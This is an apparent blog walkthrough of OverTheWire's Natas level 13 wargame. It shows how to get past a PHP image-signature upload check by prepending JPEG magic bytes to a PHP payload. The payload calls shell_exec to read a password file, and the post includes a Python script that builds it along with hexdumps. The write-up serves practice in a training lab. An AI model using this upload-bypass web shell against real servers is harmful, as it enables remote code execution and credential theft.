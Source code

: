 ```yaml
---
layout: post
title:  "Natas Level 13"
date:   2015-09-28 20:50
categories: natas wargame web overthewire
author: Nate
---
```

## Step 1: View the source code
The only difference between this level and natas12 is the line where the file is checked for an image signature.  If you click "View Source Code" at http://natas13.natas.labs.overthewire.org/index-source.html, you'll see this function:

{% highlight javascript linenos %}
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    }
{% endhighlight %}

The documentation for exif_imagetype() is available at php.net:
http://php.net/manual/en/function.exif-imagetype.php

Reading through the documentation, we see that it "reads the first bytes of an image and checks its signature."  Thus, we need to find a way to fake an image signature.

An astute observer might also note that the server script isn't checking for file extensions.  A php script just like the one used for natas12 will be interpreted by the webserver because of it's file extension and ignore anything else like the signature of an image until it reaches the opening '<?php' that indicates a script to follow.

## Step 2: Fake an image file signature
There are plenty of websites on the internet that provide file signatures for various image formats.  A cursory search engine query will turn up something you can use.  The initial mistake I made was thinking I could open up a file and write hex values by hand.  This was my payload:
{% highlight php linenos %}
FFD8FFE0
<?php
$password = shell_exec("cat /etc/natas_webpass/natas13");
echo "<pre>$output</pre>";
?>
{% endhighlight %}

I tried to prepend a jpeg signature to my php script and found that it still didn't fool the exif_imagetype() function.  So I grabbed a jpeg file from my laptop and did a hexdump:

```bash
~# hexdump image.jpeg
0000000 ff d8 ff e0 00 10 4a 46 49 46 00 01 01 00 00 01
```
Then I tried the same thing on my malfunctioning payload:
```
~# hexdump test.php
0000000 46 46 44 38 46 46 45 30 0a 3c 3f 70 68 70 0a 24
0000010 70 61 73 73 77 6f 72 64 20 3d 20 73 68 65 6c 6c
0000020 5f 65 78 65 63 28 22 63 61 74 20 2f 65 74 63 2f
0000030 6e 61 74 61 73 5f 77 65 62 70 61 73 73 2f 6e 61
0000040 74 61 73 31 33 22 29 3b 0a 65 63 68 6f 20 22 3c
0000050 70 72 65 3e 24 6f 75 74 70 75 74 3c 2f 70 72 65
0000060 3e 22 3b 0a 3f 3e 0a
0000067
```
Okay, so I can't write that by hand.  A little online research suggested writing some code to do it for me:
{% highlight python linenos %}
#!/bin/python
fp = open("test.php",'w')
fp.write('\xFF\xD8\xFF\xE0' + 'shell_exec("cat /etc/natas_webpass/natas14");')
fp.close()
{% endhighlight %}

So then I opened up my file with an editor:
{% highlight php linenos %}
ÿØÿà<?php print shell_exec("cat /etc/natas_webpass/natas14"); ?>
{% endhighlight %}
Those weird characters before my php script are the binary hex values that we were looking for.
Just to confirm, I took a look at the file in hexdump again:
```bash
~# hexdump test.php
0000000 ff d8 ff e0 3c 3f 70 68 70 20 70 72 69 6e 74 20
0000010 73 68 65 6c 6c 5f 65 78 65 63 28 22 63 61 74 20
0000020 2f 65 74 63 2f 6e 61 74 61 73 5f 77 65 62 70 61
0000030 73 73 2f 6e 61 74 61 73 31 34 22 29 3b 20 3f 3e
0000040 0a
0000041
```
It worked.  Now lets see if we can fool the server.

## Step 3: Upload your payload

Just upload the working file you just created, and sure enough, we got past the filter.  Natas13 gave us a link to our new file.  Follow the link, copy the password - making sure to not copy the first 4 values (those are the binary hex values used to fake the image signature).
